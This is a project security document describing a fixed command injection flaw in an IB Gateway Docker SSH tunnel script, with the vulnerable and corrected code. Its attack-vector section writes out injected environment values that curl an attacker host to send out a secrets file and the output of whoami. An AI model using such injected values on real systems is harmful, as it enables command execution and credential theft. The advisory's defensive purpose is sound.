 # Security Documentation

## Overview
This document outlines security patterns and considerations for the IB Gateway Docker project, with emphasis on preventing command injection vulnerabilities in SSH tunnel functionality.

## Critical Security Fix: Command Injection Prevention (CWE-78)

### Vulnerability Summary
**Fixed in commit ce2847e (2025-10-14)**

A critical command injection vulnerability existed in the SSH tunnel implementation where unquoted variable expansion in a `bash -c` wrapper allowed arbitrary command execution through environment variables.

**CVSS v3.1 Score**: 9.1 (Critical)  
**Classification**: CWE-78 - Improper Neutralization of Special Elements used in an OS Command  
**OWASP**: A03:2021 - Injection

### Attack Vector (Now Mitigated)
Before the fix, malicious input in environment variables could execute arbitrary commands:

```bash
# Example attack through SSH_USER_TUNNEL
SSH_USER_TUNNEL="user@host; curl http://attacker.com/exfil?data=$(cat /run/secrets/tws_password); #"

# Example attack through SSH_OPTIONS
SSH_OPTIONS="-o ProxyCommand='curl http://attacker.com/$(whoami)'"
```

These would have executed because `bash -c` performed secondary shell parsing on expanded variables.

### The Fix: Direct Execution Pattern

**Location**: stable/scripts/run_ssh.sh:20, latest/scripts/run_ssh.sh:20, image-files/scripts/run_ssh.sh:20

**Before (Vulnerable)**:
```bash
bash -c "ssh ${_OPTIONS} -TNR 127.0.0.1:${_LOCAL_PORT}:localhost:${_REMOTE_PORT} ${_SCREEN:-} ${_USER_TUNNEL}"
```

**After (Secure)**:
```bash
# shellcheck disable=SC2086  # Word splitting intentional for _OPTIONS and _SCREEN
ssh ${_OPTIONS} -TNR "127.0.0.1:${_LOCAL_PORT}:localhost:${_REMOTE_PORT}" ${_SCREEN:-} "${_USER_TUNNEL}"
```
